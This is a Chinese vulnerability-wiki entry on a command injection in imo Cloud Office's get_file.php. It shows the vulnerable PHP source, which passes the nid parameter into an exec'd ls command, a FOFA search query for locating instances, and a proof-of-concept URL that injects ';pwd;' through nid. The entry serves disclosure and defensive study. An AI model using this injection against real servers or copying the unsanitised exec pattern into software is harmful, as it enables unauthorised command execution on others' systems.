

# imo云办公室 get_file.php命令注入

## 条目说明

- 对象与具体问题：imo云办公室；get_file.php命令注入
- 版本、配置及部署条件：版本未给；MFS文件服务上的PHP exec
- 认证与权限前提：片段无认证；全局前置未核实
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 已按原文中的具体接口、源码或上下文直接更正产品、根因或修复说明；未知版本和未经证明的影响仍明确保留为待核实。
- cid/nid非空前提已在源码；缺版本和成功响应文本

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

imo 云办公室 /file/NDisk/get_file.php 将 nid 拼接到 exec 调用的 ls 命令中，导致命令注入。代码要求 cid 和 nid 非空；该片段未展示全局鉴权，不能据此确认所有部署都可匿名利用。

### 漏洞影响

```
imo 云办公室
```

### 网络测绘

```
app="iMO-云办公室"
```

### 漏洞复现

登录页面


漏洞文件 get_file.php

```
<?php
// 放置在 mfs 服务器上用于获取文件列表，配合 nd_verify_large_file.php 使用
if(empty($_GET['cid']) || empty($_GET['nid']))
	exit;
$cid = $_GET['cid'];
$nid = $_GET['nid'];
$mainDir = dirname(__FILE__) . '/../upload/NDiskData/normal/' . $cid . '/';
exec("ls {$mainDir}*_{$nid}_*", $r);
$ret = array();
foreach($r as $v)
	$ret[md5_file($v)] = str_replace(dirname(__FILE__) . "/../upload/NDiskData/normal/{$cid}/", '', $v);
echo json_encode($ret);
```

验证POC

```
/file/NDisk/get_file.php?cid=1&nid=;pwd;
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
